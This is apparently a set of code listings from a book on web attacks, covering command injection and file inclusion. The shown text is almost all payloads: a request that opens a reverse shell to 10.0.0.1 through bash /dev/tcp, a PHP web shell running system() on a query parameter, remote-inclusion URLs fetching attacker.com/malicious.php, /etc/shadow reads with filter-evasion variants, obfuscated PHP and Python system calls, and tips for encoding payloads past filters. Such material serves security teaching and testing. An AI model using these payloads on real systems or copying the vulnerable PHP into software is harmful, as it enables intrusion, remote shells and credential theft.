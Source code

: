 GET /download?url="google.com;bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"

Host: example.com

# File inclusion vulnerability has two subtypes: remote file inclusion and local file inclusion.

<?php
 // Some PHP code
 $file = $_GET["page"];
 include $file;
 // Some PHP code
?>

<?PHP
 system($_GET["cmd"]);
?>

# http://example.com/?page=http://attacker.com/malicious.php?cmd=ls

# PHP payloads
This command is designed to print the local PHP configuration information if execution succeeds:
phpinfo();
This command prints the result of the system command ls:
<?php system("ls");?>
This command delays the response for 10 seconds:
<?php system("sleep 10");?>

# Unix payloads
This command prints the result of the system command ls:
;ls;
These commands delay the response for 10 seconds:
| sleep 10;
& sleep 10;
` sleep 10;`
$(sleep 10)


http://example.com/?page=http://attacker.com/malicious.php

http://example.com/?page=http:attacker.com/malicious.php

http://example.com/?page=../uploads/malicious.php

http://example.com/?page=..%2fuploads%2fmalicious.php

cat /etc/shadow

cat "/e"tc'/shadow'

cat /etc/sh*dow

cat /etc/sha``dow

cat /etc/sha$()dow

cat /etc/sha${}dow

system('cat /etc/shadow');

The following example executes a system command by concatenating 
the strings sys and tem:
('sys'.'tem')('cat /etc/shadow');

The following example does the same thing but inserts a blank comment in the middle of the command:
system/**/('ls');

And this line of code is a hex-encoded version of the system command:
'\x73\x79\x73\x74\x65\x6d'('ls');

Similar behavior exists in Python. The following are all equivalent in 
Python syntax:
__import__('os').system('cat /etc/shadow')

__import__('o'+'s').system('cat /etc/shadow')

__import__('\x6f\x73').system('cat /etc/shadow')



GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"

Host: example.com

You can hex-encode, URL-encode, double-URL-encode, and 
vary the cases (uppercase or lowercase characters) of your payloads. You 
can also try to insert special characters such as null bytes, newline characters, escape characters (\), and other special or non-ASCII characters into 
the payload.
